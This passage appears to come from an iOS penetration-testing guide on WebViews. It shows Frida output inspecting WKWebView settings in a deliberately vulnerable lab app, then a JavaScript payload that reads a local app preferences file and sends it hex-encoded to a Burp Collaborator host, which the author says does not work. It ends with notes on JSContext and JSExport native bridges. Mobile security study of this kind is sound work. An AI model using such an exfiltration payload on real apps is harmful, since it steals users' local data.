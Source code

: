 ```bash
```

```bash
frida -U -f com.authenticationfailure.WheresMyBrowser -l webviews_inspector.js

onMatch:  <WKWebView: 0x1508b1200; frame = (0 0; 320 393); layer = <CALayer: 0x1c4238f20>>
URL:  file:///var/mobile/Containers/Data/Application/A654D169-1DB7-429C-9DB9-A871389A8BAA/
        Library/WKWebView/scenario1.html
javaScriptEnabled:  true
allowFileAccessFromFileURLs:  0
hasOnlySecureContent:  false
allowUniversalAccessFromFileURLs:  0
```

#### Exfiltrate arbitrary files

```javascript
//For some reason this payload doesn't work!!
//Let me know if you know how to exfiltrate local files from a WKWebView
String.prototype.hexEncode = function(){
    var hex, i;
    var result = "";
    for (i=0; i<this.length; i++) {
        hex = this.charCodeAt(i).toString(16);
        result += ("000"+hex).slice(-4);
    }
    return result
}

var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        var xhr2 = new XMLHttpRequest();
        xhr2.open('GET', 'http://187e2gd0zxunzmb5vlowsz4j1a70vp.burpcollaborator.net/'+xhr.responseText.hexEncode(), true);
        xhr2.send(null);
    }
}
xhr.open('GET', 'file:///var/mobile/Containers/Data/Application/ED4E0AD8-F7F7-4078-93CC-C350465048A5/Library/Preferences/com.authenticationfailure.WheresMyBrowser.plist', true);
xhr.send(null);
```

## Native Methods Exposed Through WebViews

Since iOS 7, Apple introduced APIs that allow **communication between the JavaScript runtime in the WebView and the native** Swift or Objective-C objects.

There are two fundamental ways of how native code and JavaScript can communicate:

* **JSContext**: When an Objective-C or Swift block is assigned to an identifier in a `JSContext`, JavaScriptCore automatically wraps the block in a JavaScript function.
* **JSExport protocol**: Properties, instance methods and class methods declared in a `JSExport`-inherited protocol are mapped to JavaScript objects that are available to all JavaScript code. Modifications of objects that are in the JavaScript environment are reflected in the native environment.
